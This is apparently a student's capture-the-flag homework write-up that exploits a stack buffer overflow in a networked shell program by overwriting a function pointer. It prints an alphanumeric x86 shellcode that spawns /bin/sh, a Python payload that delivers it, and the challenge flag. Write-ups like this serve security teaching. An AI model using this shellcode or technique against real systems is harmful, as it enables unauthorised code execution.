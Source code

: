 ```yaml
---
layout: post
title: 'nphw1 Writeup'
category: memo
slug: nphw1-writeup
---
```

Security Programming Homework 2-1

## Intelligence Gathering

-  There is a vulnerability in piece of code which contains `strtok()`
-  There is a `call eax` in the binary
-  Because it is an interactive shell program, bad characters are 0x00, 0x0a,
   0x2f (filter out by specific function in the program)

## De-complie the binary

It is hard to debug using gdb. A possible method is to use gdbserver to do
remote debugging. But sadly, I do not have time to learn how to use it. Maybe
next time...

So I turned up using IDA Pro to do the static analysis. By decompilation,
bunch of functions showed up:

```text
...
frame_dummy
passCmdline
splitCmdline
parseArgv
printEnv
setEnv
getResult
sendResult
closePipes
exeCmd
nextLine
main
passPipe
addPipe
delPipe
...
```

By doing some observation, I picked up three interesting functions for deeper
inspection: `main`, `passCmdline`, `splitCmdline`, `exeCmd`.

| Offset of cmdline | Meaning                               |
| -----------------:| ------------------------------------- |
| 0                 | pointer of whole command line         |
| 1 - 10000         | pointer of each word                  |
| 10001             | number of words in whole command line |
| 10002 - 11001     | single command, seperated by '\|'     |
| 11002             | argc                                  |
| 11003             | not important                         |
| 11004             | stdout                                |
| 11005             | pointer of function printEnv()        |
| 11006             | pointer of string "printenv"          |
| 11007             | pointer of function setEnv()          |

Since the program uses function pointer to call printEnv(), we can simply put
our shellcode to replace the original printEnv() with the aid of buffer
overflow.

According to the table above, stack overflow will happen when we type more than
1000 words in one single command (commands are seperated by '|'). To overwrite
index 11005 with our shellcode, we need to stuff 1003 words in total.

The 1005th word will overwrite the pointer of the string "printenv", which used
to compared to the very first word. When they are equal, the program will run
into printEnv(). So our job is to ensure they will be the same, otherwise it
won't call our shellcode.

## Shellcode

The shellcode for execute `/bin/sh` is showed following, grab from the
Internet. See the references at the end of this article for more information.

```text
PYj0X40PPPPQPaJRX4Dj0YIIIII0DN0RX502A05r9sOPTY01A01RX500D05cFZBPTY01SX540D05ZFXbPTYA01A01SX50A005XnRYPSX5AA005nnCXPSX5AA005plbXPTYA01Tx
```

## Exploitation

The first word should be the same as the last word, and the shellcode should be
1004th word. That's all!

```python
payload = 'a ' * 1003
payload += 'PYj0X40PPPPQPaJRX4Dj0YIIIII0DN0RX502A05r9sOPTY01A01RX500D05cFZBPTY01SX540D05ZFXbPTYA01A01SX50A005XnRYPSX5AA005nnCXPSX5AA005plbXPTYA01Tx '
payload += 'a'
```

Don't forget to append a new line character to fire our payload!

## Flag

The flag is `SECPROG{N3tw0rk_Pr0gr4mm1ng_h0m3w0rk_1s_e4s1er}`

## References

-  [Linux x86 Shellcoding 101 – Objective: Topics introduction and exit(69)
   shellcode](http://0xcd80.wordpress.com/2011/04/16/linux-x86-shellcoding-101/)
-  [x86 alphanumeric shellcodeを書いてみる](http://inaz2.hatenablog.com/entry/2014/07/11/004655)
